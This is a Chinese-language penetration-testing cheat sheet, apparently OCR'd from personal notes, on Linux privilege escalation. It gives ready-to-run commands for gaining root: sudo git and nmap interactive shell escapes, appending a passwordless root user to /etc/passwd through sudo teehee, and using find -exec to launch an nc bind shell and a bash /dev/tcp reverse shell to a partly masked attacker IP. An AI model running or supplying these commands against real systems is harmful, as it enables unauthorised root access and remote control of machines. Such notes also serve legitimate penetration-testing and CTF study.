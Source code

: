 发现/usr/bin/git

sudo git -p help 

!/bin/bash #输入!/bin/bash，即可打开一个用户为root的shell

teehee提权

echo \'admin::0:0::/home/admin:/bin/bash\' \| sudo teehee -a /etc/passwd

su admin

nmap

适用版本:nmap2.02至5.21

在早期nmap版本中,带有交互模式,因而允许用户执行shell命令

使用如下命令进入nmap交互模式:

最好是绝对路劲

nmap \--interactive

在nmap交互模式中 通过如下命令提权

nmap\> !sh

sh-3.2# whoami

root

msf当中也有利用nmap进行提权的模块

exploit/unix/local/setuid_nmap

![29d62dbb9b3905e90097d1647389fbee.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image67.jpeg){width="5.760416666666667in"
height="1.2856583552055993in"}

![c6e3319900e4dc534da1a79b0eabd272.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image68.jpeg){width="5.760416666666667in"
height="0.9433727034120735in"}

linux一般都安装了nc 我们也可以利用nc 广播或反弹shell

广播shell:

find user -exec nc -lvp 4444 -e \'/bin/sh\' \\;

在攻击机上:

nc 靶机ip 4444

反弹shell

find /etc/passwd -exec bash -c \'bash -i \>&
/dev/tcp/114.xxx.xxx.96/4444 0\>&1\' \\;

在攻击机上:

nc -lvp 4444

l：表示入站 v:表示输出信息级别 p：表示端口
